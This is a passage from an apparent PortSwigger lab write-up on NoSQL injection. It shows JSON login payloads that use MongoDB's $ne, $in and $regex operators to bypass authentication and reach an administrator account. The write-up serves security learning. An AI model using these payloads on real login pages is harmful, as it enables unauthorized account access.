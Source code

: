 It redirected us to the profile page! Which means **the login page is vulnerable to authentication bypass via MongoDB operator injection!**

## Exploitation

**Let's try the same thing but with username `administrator`!**
```json
{
    "username": "administrator",
    "password":{
        "$ne": "foobar"
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009142946.png)

Wait what? "Invalid username or password"?

**Maybe we can guess the administrator account's username with a guessable name via `$in` operator?**
```json
{
    "username":{
        "$in":[
            "admin",
            "administrator",
            "superadmin"
        ]
    },
    "password":{
        "$ne": "foobar"
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009143815.png)

Nope.

**We can also use regular expression (regex) to search through a pattern:**
```json
{
    "username":{
        "$regex": "admin.*"
    },
    "password":{
        "$ne": "foobar"
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-2/images/Pasted%20image%2020231009144002.png)
